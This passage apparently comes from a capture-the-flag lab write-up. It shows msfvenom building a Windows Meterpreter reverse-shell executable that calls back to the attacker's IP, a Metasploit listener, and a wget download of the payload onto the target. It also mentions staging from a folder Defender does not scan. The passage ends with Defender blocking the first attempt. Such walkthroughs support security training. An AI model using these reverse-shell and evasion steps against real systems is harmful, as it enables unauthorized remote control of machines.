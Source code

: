That said, there's a step coming that is made possible (or at least
significantly easier) with Meterpreter, so I'll use that here.

#### Generate Payload

I'll use `msfvenom` to generate a reverse shell using Meterpreter in an
executable format:



    oxdf@hacky$ msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=4444 LHOST=10.10.14.6 -f exe -o rev.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 510 bytes
    Final size of exe file: 7168 bytes
    Saved as: rev.exe



I don't have to worry about any obfuscation or encoding, as I will find
in a minute a Defender-free folder to stage from. I'm using a high port
so I don't have to start `msfconsole` as root.

#### Start Listener

I'll run `msfconsole` to start Metasploit, and then run
`use exploit/multi/handler` to get the "exploit" that just listens for a
reverse connection and starts a session with it.

I'll set the `payload`, `lhost`a and `lport` to match what I used in
`msfvenom`, and then `run`:



    msf6 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.6:4444



#### Upload and Execution - Fail

I'll use a Python webserver to host the executable, and fetch it into
`C:\ProgramData` with `wget`:



    PS C:\programdata> wget 10.10.14.6/rev.exe -outfile r.exe



Once it's there, I'll run it:



    PS C:\programdata> .\r.exe
    Program 'r.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted software.
        + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException 
        + FullyQualifiedErrorId : NativeCommandFailed 

